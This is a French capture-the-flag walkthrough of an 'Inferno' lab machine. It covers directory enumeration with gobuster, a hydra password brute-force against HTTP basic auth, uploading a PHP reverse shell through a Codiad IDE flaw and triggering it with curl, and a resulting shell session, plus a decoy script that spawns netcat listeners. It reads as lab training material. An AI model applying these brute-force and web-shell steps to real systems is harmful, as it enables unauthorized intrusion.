 ```
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 458]
/server-status        (Status: 403) [Size: 276]
```
La page **/inferno** demande un identifiant/mot de passe.

# Exploitation
Je ne connais pas l'identifiant. Mais le nom du site est **Dante's inferno** je test donc avec l'utilisateur **Dante** mais cela ne fonctionne pas. Je test donc avec **admin**...
```
hydra -l admin -P /home/kali/Wordlist/rockyou.txt "http-get://inferno.thm/inferno:F=401 username=^USER^&password=^PASS^:A=BASIC:" -V -I
```
Il me trouve un mot de passe :
```
[80][http-get] host: inferno.thm   login: admin   password: d[...]1
```
De nouveau une page avec un login mdp, je remet le même, ca m'ouvre une nouvelle page avec Codiad (Un IDE en cloud).

Il existe une RCE sur cet IDE, voici les étapes à suivre pour l'exploiter :

1) Log sur Codiad
2) Suivre ce chemin dans le panel sur la gauche : **themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF**
3) Click droit puis **Upload file**
4) Upload le shell.php
5) Fait click droit sur le shell puis **Delete** afin d'avoir le full path : **/var/www/html/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/php-revshell.php**
6) Plus qu'a request l'url avec le shell : **curl -k http://inferno.thm/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/php-revshell.php -u "admin:dante1"**

Nous voici avec un shell :
```
listening on [any] 4444 ...
connect to [10.11.50.195] from (UNKNOWN) [10.10.237.225] 57034
Linux Inferno 4.15.0-130-generic #134-Ubuntu SMP Tue Jan 5 20:46:26 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:28:09 up 56 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
# Post-Exploitation
En farfouillant, je trouve un script présent dans **/var/www/html/machine_services1320.sh** qui tue le processus **bash** et execute plein de commande **nc** avec plein de ports différents afin de brouiller les pistes, ce qui explique les X ports scanner par nmap. :)
```machine_services1320.sh
pkill bash &
nc -nvlp 21 &
nc -nvlp 23 &
nc -nvlp 25 &
nc -nvlp 110 &
```